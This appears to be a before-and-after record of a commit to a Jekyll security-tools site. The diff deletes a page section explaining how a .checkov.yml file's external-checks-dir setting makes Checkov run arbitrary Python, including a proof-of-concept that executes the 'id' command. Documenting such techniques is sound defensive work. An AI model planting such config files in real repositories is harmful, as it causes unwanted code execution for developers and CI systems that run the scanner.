

Before and after one commit to 0xAnalyst/Project-Lost, a Jekyll site: the page built from _tool/Defender.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update Defender.md

````diff
--- a/_tool/Defender.md
+++ b/_tool/Defender.md
@@ -4,38 +4,6 @@
   - Enum
   - Exec
 references:
-- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
-files: [.checkov.yml,.checkov.yaml]
+-
+files: []
 ---
-
-Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more.
-
-Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).
-
-Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.
-
-### `.checkov.yml`
-
-```yaml
-external-checks-dir:
-- extra-checkov-checks
-```
-
-The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.
-
-### `extra-checkov-checks/POC.py`
-
-```python
-import os
-import tempfile
-lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
-try:
-    # Atomically create a lock file
-    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
-    os.close(fd)
-
-    # Actual POC code
-    os.system('id')
-except OSError as e:
-    pass
-```
````
